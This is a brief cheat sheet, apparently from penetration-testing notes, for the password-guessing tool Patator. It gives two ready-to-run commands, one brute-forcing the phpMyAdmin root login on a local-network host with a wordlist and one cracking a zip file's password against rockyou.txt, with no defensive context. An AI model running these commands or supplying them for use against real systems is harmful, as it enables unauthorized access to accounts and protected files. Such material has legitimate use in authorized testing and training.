 # Patator

## Web Cracking
```shell
# Crack phpMyAdmin password for default user
patator http_fuzz url=http://192.168.1.9/phpmyadmin/index.php method=POST body='pma_username=root&pma_password=FILE0&server=1&' 0=/usr/share/ncrack/phpbb.pwd follow=1 accept_cookie=1 -x ignore:fgrep='Cannot log in to the MySQL server'
```

## Zip Cracking
```shell
patator unzip_pass zipfile=./test.zip password=FILE0 0=/usr/share/wordlists/rockyou.txt -x ignore:code!=0
```